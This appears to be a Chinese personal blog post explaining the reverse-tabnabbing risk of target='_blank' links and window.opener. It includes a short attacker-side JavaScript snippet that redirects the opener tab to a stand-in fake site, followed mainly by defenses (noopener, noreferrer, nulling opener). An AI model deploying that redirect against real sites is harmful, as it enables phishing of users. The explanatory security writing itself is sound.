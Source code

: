 ```yaml
---
title: a标签opener的危险
date: 2019-06-03 20:54:31
tags: web安全
categories: 
- web前端
---
```



>本篇博客仅以个人学习记录使用

### 起源

我们知道，在iframe中提供了一个用于父子页面交互的现象，叫做window.parent,我们可以通过这个对象来从框架汇总的页面访问父级页面的window。
opener与parent一样，只不过是用于在新标签页打开的页面的。通过a标签打开的页面，可以直接使用window.opener来访问来源页面的window对象。

```
<a target="_blank">

```

### 同域和跨域

浏览器提供了完整的跨域保护，在域名相同时，parent对象和opener对象实际上就直接是上一级的window对象；而当域名不同时，则是经过包装的一个global对象，并且在这几个仅有的属性中，大部分也都是不允许访问的（访问会直接抛出DOMException）
在iframe中，提供了一个sandbox属性用于控制框架中的页面的权限，因此即使是同域，也可以控制iframe的安全性

### 利用

如果，你的网站上有一个链接，使用了target="_blank",那么一旦用户点击了这个链接并进入一个新的标签，新标签中的页面如果存在恶意代码，就可以将你的网站直接导航到一个虚假网站。此时，如果用户回到你的标签页，看到的就是被替换过的页面了。

### 详细步骤

1：在你的网站上存在一个链接

```
<a href=""https://an.evil.site"  target="_blank">进入一个邪恶的网站</a>
```

2:用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过HTTP Header 中的Referer属性来判断用户的来源。并且，这个网站上包含着类似于这样的Js代码:

```
const url = encodeUrIComponent('{{header.refer}}');
window.opener.location.replace('https://a.fake.site/?' + url);
```

1.此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了xxxx

2.恶意网站xxx根据query string 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）

3.用户关闭xxx的标签页，回到原来的网站，已经回不去了

上部分攻击是在跨域的情况下的，在跨域情况下，opener对象和parent一样，是受限制的，仅提供非常有限的属性访问，大部分也都是不予许访问的（访问会直接抛出DOMException）

但是与parent不同的是，在跨域的情况下，opener仍然可以调用location.replace方法而parent不能
*** 如果是在同域的情况下，情况要比上面的严重的多

### 防御

```
<iframe>中用sandbox属性，而链接，则可以使用下面的方法:
1.Referrer Policy 和 noreferrer
上面的攻击中步骤中，用到了HTTP Header中的Referer属性，实际上可以在HTTP的响应头中增加Referrer Policy 头来保证来源隐私安全。

```

```
<a href="https://an.evil.site" target="_blank" rel="noreferrer">进入一个邪恶的网站</a>
但是要注意的是：即使限制了referer的传递，仍然不能阻止原标签被恶意跳转

```

2.noopener

为了安全，现代浏览器都支持在a标签的rel属性中指定rel="noopener",这样，在打开的新标签页中，将无法使用opener对象了，它设置为了null.

```
<a href="https://an.evil.site" target="_blank" rel="noopener">进入一个邪恶的网站</a>
```

3.JS

noopener属性看似解决了所有的问题，但是，浏览器还存在兼容性问题。。。
这时就需要加上这段原生JavaScript来帮忙了

```
function openUrl(url) {
    var newTab = window.open();
    newTab.opener = null;
    newTab.location = url;
}
```

### 推荐

首先在网站中的链接上 ，如果使用了target="_blank",就要带上rel="noopener",并且建议带上rel="noreferrer"。类似于这样：

```
<a href="https://an.evil.site" target="_blank" rel="nooperner noreferrer">进入一个邪恶的网站</a>
```

当然，在跳转到第三方网站的时候，为了SEO权重，还建议带上rel="nofollow",所以最终类似于这样:

```
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer nofollow"> 进入一个邪恶的网站</a>
```

### 性能

最后，再来说说性能问题。
如果网站使用了target="_blank",那么新打开的标签页的性能将会影响到当前页面。此时如果新打开的页面中执行了一个非常庞大的Js脚本，那么原始标签页也会受到影响，会出现卡顿的现象，而如果在连接中加入了noopener,则此时两个标签页将会互补干扰，使得原页面的性能不会受到新页面的影响
